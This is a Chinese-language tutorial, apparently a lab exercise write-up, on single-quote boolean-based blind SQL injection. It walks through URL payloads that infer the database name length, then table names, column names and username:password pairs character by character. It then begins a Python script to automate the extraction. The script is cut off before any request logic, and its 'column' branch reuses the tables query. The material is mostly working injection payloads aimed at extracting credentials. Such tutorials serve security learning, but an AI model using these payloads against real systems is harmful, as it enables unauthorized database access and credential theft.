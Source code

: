 3. **由于没有有效回显，所以确认为单引号布尔盲注**

   首先就先判断一下数据库的长度

   ```
   ?id=1' and (select length(database()))>7 --+	//最后得到长度为8
   ```

4. **获得数据库**

   ```
   ?id=1' and ascii(substr(database(),1,1))>97--+	//猜表名第一个字符是否大于a，substr截取字符串第一个参数要截取的字符串，第二个参数起始位，第三个参数偏移量
   ```

5. **获取表**

   ```
   ?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<120--+		//猜表名
   ```

6. **获取列名**

   ```
   ?id=1' and substr((select group_concat(column_name) from information_schema.columns where table_name='member' limit 0,1),4,1)='u' --+	//猜列名，这里我们换一种方式，直接猜字符串
   ```

7. **取值**

   ```
   ?id=1' and substr((select group_concat(username,":",password) from users),1,1)='s'--+	//猜数据
   ```



手工盲注太麻烦了，我们写一个python脚本跑一下

```python
import requests


def select(data):
    if data == 'database':
        # length = 8
        database = 'select database()'
        select_database = "(select length(database()))"
        return database, select_database

    if data == 'tables':
        # length = 29
        tables = "select group_concat(table_name) " \
                 "from information_schema.tables " \
                 "where table_schema='security'"
        select_tables = "(select length(group_concat(table_name)) " \
                        "from information_schema.tables " \
                        "where table_schema='security')"
        return tables, select_tables

    if data == 'column':
        # length = 20
        column = "select group_concat(column_name) " \
                 "from information_schema.columns " \
                 "where table_schema=database() " \
                 "and table_name='users'"
        select_column = "(select length(group_concat(table_name)) " \
                        "from information_schema.tables " \
                        "where table_schema='security')"

        return column, select_column

```